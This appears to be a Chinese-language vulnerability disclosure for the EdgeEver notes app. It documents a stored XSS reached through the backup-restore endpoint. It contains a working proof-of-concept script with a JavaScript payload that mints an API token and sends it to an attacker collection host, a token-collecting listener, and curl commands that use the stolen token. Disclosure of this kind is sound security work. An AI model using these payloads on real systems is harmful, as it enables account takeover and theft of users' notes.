



# EdgeEver 漏洞报告

软件名称：EdgeEver

开发者或厂商：tianma-if

代码仓库：https://github.com/tianma-if/edgeever

## 1. XSS 导致越权读写数据

简要描述：攻击者利用备份恢复接口上传恶意附件，将其链接发送给受害者，受害者打开即被 XSS。恶意脚本可以申请 API Token 并回传给攻击者，使得攻击者可以无限期读写受害者的全部笔记。

影响版本：0.1.13 ~ 2.9.0

前置条件：攻击者持有普通成员账号，并且能诱使实例所有者打开一个链接。

### 漏洞成因

EdgeEver 的附件存放在 `resources` 表中，该表有两个重要字段：`kind` 决定浏览器如何处理响应（`image` 走 `inline`，`attachment` 走下载），`mime_type` 决定响应的 `Content-Type`。正常上传时这两列由同一个 `Content-Type` 推导，因此始终一致。

备份恢复接口 `PUT /api/v1/restores/json/resources/:id` 用于把导出的 JSON 备份连同原始附件一起写回实例。该接口直接使用请求体中的 `metadata.kind` 与 `metadata.mimeType` 入库，二者之间没有一致性校验。相关代码如下：

```ts
# apps/api/src/backup-routes.ts:378,430-436    commit d5c62eeda4
    const maxBytes = metadata.kind === "image" ? MAX_IMAGE_UPLOAD_BYTES : MAX_ATTACHMENT_UPLOAD_BYTES;
    ...
    await destination.store.put(objectKey, bytes, {
      httpMetadata: { contentType: metadata.mimeType ?? file.type ?? "application/octet-stream" },
      customMetadata: { memoId: metadata.memoId, resourceId: metadata.id, restored: "true" },
    });
    ...
        metadata.kind,
        metadata.mimeType ?? file.type ?? null,
```

该接口所依赖的校验规则 `JsonBackupResourceMetadataSchema` 同样只检查 `kind` 是 `image` 或 `attachment`、`mimeType` 是字符串，两者可以任意组合：

```ts
# packages/shared/src/backup.ts:137-139    commit d5c62eeda4
    kind: z.enum(["image", "attachment"]),
    mimeType: z.string().nullable(),
    filename: z.string().nullable(),
```

因此，把 `kind` 写为 `image`、`mimeType` 写为 `text/html`，就得到一条按图片内联输出、内容却是 HTML 的资源记录。

笔记开启公开分享后，该笔记下的每个附件都可以通过 `/api/public/shares/{token}/resources/{resourceId}/blob` 公开访问。该接口按 `kind` 与 `mime_type` 原样设置响应头：

```ts
# apps/api/src/share-routes.ts:76,144-147,160-162    commit d5c62eeda4
  const inline = kind === "image" || isPdfAttachment(mimeType, filename) || Boolean(resolvePlayableMediaMimeType(mimeType, filename));
  ...
  headers.set(
    "Content-Type",
    isPdfAttachment(resource.mime_type, resource.filename)
      ? "application/pdf"
      : playableMimeType ?? resource.mime_type ?? headers.get("Content-Type") ?? "application/octet-stream",
  );
  ...
  headers.set("Content-Disposition", contentDisposition(resource.kind, resource.mime_type, resource.filename));
  headers.set("Cache-Control", "private, no-store");
  headers.set("X-Content-Type-Options", "nosniff");
```

受害者打开恶意附件链接时，浏览器把附件当作 HTML 文档解析，其中的脚本随之执行。至此实现 XSS。

恶意脚本可通过 `POST /api/v1/api-tokens` 获得一枚 API Token，并回传给攻击者，从而攻击者可以读写受害者的笔记。该 API Token 默认永久有效。

### 复现环境搭建

实验环境用官方镜像部署。新建目录，写入 `docker-compose.yml`：

```yaml
name: edgeever
services:
  edgeever:
    image: ghcr.io/tianma-if/edgeever:v2.9.0
    init: true
    ports:
      - "19302:8787"
    volumes:
      - ./data:/data
    environment:
      EDGE_EVER_AUTH_USERNAME: admin
      EDGE_EVER_AUTH_PASSWORD: Admin12345.
```

镜像内的服务以 uid 1000 运行，挂载前需要把数据目录的所有者改成该用户，否则容器无法创建 `/data/resources`：

```bash
mkdir -p data && sudo chown -R 1000:1000 data
docker compose up -d
```

实例启动后，用 `admin` 登录，打开 Profile 菜单里的 Members 面板，点击 Add member 创建一个普通成员，用户名 `member`。

### 复现过程

攻击者先登录成员账号，创建一篇笔记并上传恶意资源：
```python
import datetime, json, uuid
import httpx

BASE = "http://127.0.0.1:19302"
ATTACKER = "http://192.0.2.10:18099/collect"
session = httpx.Client(base_url=BASE, timeout=30)
session.headers["Authorization"] = "Bearer " + session.post(
    "/api/v1/auth/login", json={"username": "member", "password": "Member12345."}
).json()["sessionToken"]

HTML = b"""<!doctype html><meta charset="utf-8"><title>Shared image</title>
<body><p>Loading preview...</p>
<script>
fetch('/api/v1/api-tokens', {method: 'POST', credentials: 'include',
  headers: {'Content-Type': 'application/json'},
  body: JSON.stringify({name: 'backup-token', scopes: ['read:memos', 'write:memos']})})
  .then(r => r.json())
  .then(j => { document.body.textContent = j.token;
               fetch('ATTACKER?token=' + encodeURIComponent(j.token)); });
</script></body>"""

notebook = session.get("/api/v1/notebooks").json()["notebooks"][0]["id"]
memo = session.post("/api/v1/memos", json={"notebookId": notebook, "title": "shared image",
                                           "contentMarkdown": "hi"}).json()["memo"]["id"]

rid = "res_" + uuid.uuid4().hex
now = datetime.datetime.now(datetime.UTC).isoformat().replace("+00:00", "Z")
metadata = {"id": rid, "memoId": memo, "originalMemoId": None, "kind": "image",
            "mimeType": "text/html", "filename": "image.html", "byteSize": len(HTML),
            "sha256": None, "width": None, "height": None,
            "createdAt": now, "updatedAt": now, "archivePath": "image.html"}

r = session.put(f"/api/v1/restores/json/resources/{rid}",
                data={"metadata": json.dumps(metadata)},
                files={"file": ("image.html", HTML.replace(b"ATTACKER", ATTACKER.encode()), "text/html")})
print("restore upload:", r.status_code, r.text)

token = session.post(f"/api/v1/memos/{memo}/share", json={}).json()["share"]["token"]
print("payload url:", f"{BASE}/api/public/shares/{token}/resources/{rid}/blob")
```

脚本输出如下：

```
restore upload: 200 {"ok":true}
payload url: http://127.0.0.1:19302/api/public/shares/7AuwbQxK4H_ryLXpLrI2JhAqB-vTsXgJVuT_gmzjMwU/resources/res_7e76f4654e954b06a76824f4d25e3e1c/blob
```

接下来，攻击者启动 HTTP log 服务：

```python
import sys
from fastapi import FastAPI, Request
import uvicorn

app = FastAPI()


@app.get("/collect")
def collect(request: Request, token: str = ""):
    print(token, flush=True)
    return {"ok": True}


uvicorn.run(app, host="0.0.0.0", port=int(sys.argv[1]) if len(sys.argv) > 1 else 18099, log_level="warning")
```

接下来展示受害者 `admin` 的视角。先登录 `admin` 账号：



`admin` 打开攻击者发来的链接，XSS 成功：



同时，攻击者通过 HTTP log 收到 API Token：

```
eev_G0JPzlDi2BlxkJKp0x41ZA7xg_oDOuU6-xK-sGoMv28
```

用这枚 Token 读取 `admin` 的笔记：

```bash
TOKEN=eev_G0JPzlDi2BlxkJKp0x41ZA7xg_oDOuU6-xK-sGoMv28
curl -s -H "Authorization: Bearer $TOKEN" "http://127.0.0.1:19302/api/v1/memos?limit=3"
```

```
{"memos":[{"id":"memo_welcome","notebookId":"nb_inbox","title":"欢迎来到 EdgeEver","excerpt":"这是第一条 EdgeEver 笔记，三栏、边缘、Agent-ready。",...
```

写入一篇笔记：

```bash
curl -s -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" \
  -d '{"notebookId":"nb_inbox","title":"tamper","contentMarkdown":"written-through-stolen-token"}' \
  http://127.0.0.1:19302/api/v1/memos
```

```
{"memo":{"id":"memo_e05188cedaba41c5b78d25223ef22090","notebookId":"nb_inbox","title":"tamper","excerpt":"written-through-stolen-token",...
```

从 `admin` 的客户端可以看到这篇被写入的笔记，证实写入成功：




利用窃取的 API Token，可访问的 API 包括：

| 接口 | 说明 |
|---|---|
| `GET /api/v1/memos?limit=100` | 读取全部笔记的标题、正文、标签 |
| `GET /api/v1/backups/json?limit=50` | 下载完整 JSON 备份，含笔记、附件元数据与历史版本正文 |
| `GET /api/v1/exports/markdown?limit=100` | 下载 Markdown 导出，含每篇笔记全文与附件清单 |
| `GET /api/v1/notebooks`、`GET /api/v1/tags` | 读取笔记本结构与标签 |
| `POST /api/v1/memos` | 新建笔记 |
| `PATCH /api/v1/memos/:id` | 修改任意笔记的标题等属性 |
| `POST /api/v1/memos/:id/edit-sessions` + `POST /api/v1/memos/:id/save` | 覆写任意笔记正文 |
